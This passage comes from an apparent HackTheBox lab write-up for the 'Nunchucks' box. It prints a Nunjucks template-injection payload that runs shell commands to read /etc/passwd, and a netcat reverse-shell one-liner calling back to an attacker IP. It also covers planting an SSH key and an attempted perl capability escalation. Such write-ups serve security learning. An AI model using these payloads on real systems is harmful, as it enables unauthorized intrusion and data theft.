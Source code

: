 <img src="/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/09.png" alt="09" style="zoom:80%;" />

I googled for `Nunjucks template injection` and it lead me to [a blog site that showed POC](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) on how to exploit data.

> ```javascript
> {{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
> ```

<img src="/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/10.png" alt="10" style="zoom:80%;" />



I changed `tail` to `cat` and I got more data than previous response, I was able to extract whole `/etc/passwd` file. After looking at the `/etc/passwd`, user is David. So I tried extracting ssh key residing in home directory of david, but it is asking for password.



![11](/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/11.png)

<img src="/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/12.png" alt="12" style="zoom:80%;" />

Now I used nc reverse shell from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and I got shell as user.

> ```bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 9001 >/tmp/f
> ```

While getting proper shell, this box is really sensitive I lost my reverse shell trying to put SSH key inside `authorized_keys`. Anyway I did that from burp suite.

![13](/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/13.png)

I got proper SSH shell.

<img src="/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/14.png" alt="14" style="zoom: 67%;" />

# Getting root

User David has one interesting capability, he can run perl commands with setuid capability.

![15](/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/15.png)

I head over to GTFObins and copied their [capability payload](https://gtfobins.github.io/gtfobins/perl/#capabilities) but I did not get shell as root.

![16](/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/16.png)

After looking for more information, I came across some interesting files in `/opt` directory.

``` bash
david@nunchucks:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Oct 28 17:03 .
drwxr-xr-x 19 root root 4096 Oct 28 17:03 ..
-rwxr-xr-x  1 root root  838 Sep  1 12:53 backup.pl
drwxr-xr-x  2 root root 4096 Nov  8 11:41 web_backups
```
